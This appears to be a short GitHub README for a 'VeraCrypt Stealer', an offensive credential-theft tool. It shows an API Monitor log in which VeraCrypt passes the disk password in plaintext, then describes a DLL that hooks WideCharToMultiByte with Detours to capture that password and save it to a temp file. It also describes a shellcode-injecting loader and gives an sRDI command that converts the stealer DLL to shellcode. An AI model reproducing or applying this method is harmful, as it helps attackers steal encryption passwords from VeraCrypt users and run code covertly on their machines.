 # VeraCrypt Stealer

## Api monitor v2 analysis

```
# Time of Day Thread Module API Return Value Error Duration
16707 12:56:16.945 PM 2 VeraCrypt.exe WideCharToMultiByte ( CP_UTF8, 0, "TESTMODEdrive", -1, 0x00007ff74334c744, 129, NULL, NULL ) 14 0.0000014
```

The app passes the password in plaintext via WideCharToMultiByte. Therefore, it is possible to steal the password by hooking this function.

## Stealer
This module hooks WideCharToMultiByte using detours, capturing the Veracrypt password when the user decrypts the disk. The captured password is then saved to C:\Windows\Temp\data.txt.

## Loader
The loader functions as a shellcode injector. It is expected to convert the stealer DLL to shellcode using the sRDI project.
Link to sRDI proyect: https://github.com/monoxgas/sRDI

```
python3 .\sRDI\Python\ConvertToShellcode.py .\VeraCryptPasswordStealer.dll -f Go
```